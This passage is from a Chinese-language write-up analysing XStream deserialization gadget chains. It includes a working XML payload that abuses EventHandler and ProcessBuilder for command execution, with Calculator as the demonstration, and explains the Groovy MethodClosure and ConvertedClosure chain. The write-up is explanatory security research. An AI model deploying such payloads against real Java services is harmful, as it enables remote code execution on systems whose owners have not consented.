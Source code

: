 现在再来看看具体的[POC](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/EventHandler.java)

```null
<sorted-set>  
  <string>foo</string>
  <dynamic-proxy> 
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>open</string>
          <string>/System/Applications/Calculator.app</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>

```

### 2\. Groovy ConvertedClosure

**利用条件**：groovy <= 2.4.3，在后续的版本里，`MethodClosure`不允许反序列化调用。

除了上面这种`EventHandler`的动态代理方式，Groovy的`ConvertedClosure`也同样可以达到这种效果

### MethodClosure

当前MethodClosure的主要作用就是封装我们需要执行的对象，比如

```null
new MethodClosure(Runtime.getRuntime(), "exec");

```

封装`Runtime`对象，并设定后续需要调用的函数`exec`

### ConvertedClosure

这个`ConvertedClosure`也是继承了`InvocationHandler`，可以在动态代理中作为handler的存在，来看一下他的invoke

`ConvertedClosure`调用的是父类`org.codehaus.groovy.runtime.ConversionHandler#invoke`

![](_assets/t0133a0697c81d7b8f0.png)
